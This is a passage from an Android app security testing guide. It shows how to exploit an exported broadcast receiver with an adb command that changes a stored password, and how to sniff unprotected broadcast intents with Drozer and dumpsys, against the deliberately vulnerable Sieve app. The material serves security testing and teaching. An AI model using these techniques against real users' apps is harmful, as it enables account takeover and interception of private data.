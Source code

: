 As you can see in the source code, this broadcast receiver expects two parameters named `phonenumber` and `newpass`. With this information you can now try to exploit this broadcast receiver by sending events to it using custom values:

`# Send an event with the following properties: # Action is set to "theBroadcast" # Parameter "phonenumber" is set to the string "07123456789" # Parameter "newpass" is set to the string "12345" $ adb shell am broadcast -a theBroadcast --es phonenumber "07123456789" --es newpass "12345" Broadcasting: Intent { act=theBroadcast flg=0x400000 (has extras) } Broadcast completed: result=0`

This generates the following SMS:

`Updated Password from: SecretPassword@ to: 12345`

#### Sniffing Intents

If an Android application broadcasts intents without setting a required permission or specifying the destination package, the intents can be monitored by any application that runs on the device.

To register a broadcast receiver to sniff intents, use the Drozer module `app.broadcast.sniff` and specify the action to monitor with the `--action` parameter:

`` dz> run app.broadcast.sniff  --action theBroadcast [*] Broadcast receiver registered to sniff matching intents [*] Output is updated once a second. Press Control+C to exit.  Action: theBroadcast Raw: Intent { act=theBroadcast flg=0x10 (has extras) } Extra: phonenumber=07123456789 (java.lang.String) Extra: newpass=12345 (java.lang.String)` ``

You can also use the following command to sniff the intents. However, the content of the extras passed will not be displayed:

`$ adb shell dumpsys activity broadcasts | grep "theBroadcast" BroadcastRecord{fc2f46f u0 theBroadcast} to user 0 Intent { act=theBroadcast flg=0x400010 (has extras) } BroadcastRecord{7d4f24d u0 theBroadcast} to user 0 Intent { act=theBroadcast flg=0x400010 (has extras) } 45: act=theBroadcast flg=0x400010 (has extras) 46: act=theBroadcast flg=0x400010 (has extras) 121: act=theBroadcast flg=0x400010 (has extras) 144: act=theBroadcast flg=0x400010 (has extras)`

## Resources

- [IntentFilterElement ↗](https://developer.android.com/guide/topics/manifest/intent-filter-element.html "IntentFilterElement")
- [ProviderElement ↗](https://developer.android.com/guide/topics/manifest/provider-element.html "ProviderElement")
- [ReceiverElement ↗](https://developer.android.com/guide/topics/manifest/receiver-element.html "ReceiverElement")
- [SendBroadcast ↗](https://developer.android.com/reference/android/content/Context#sendBroadcast%28android.content.Intent,%20java.lang.String%29 "SendBroadcast")
- [ServiceElement ↗](https://developer.android.com/guide/topics/manifest/service-element.html "ServiceElement")
- [Sieve: Vulnerable Password Manager ↗](https://github.com/mwrlabs/drozer/releases/download/2.3.4/sieve.apk "Sieve: Vulnerable Password Manager")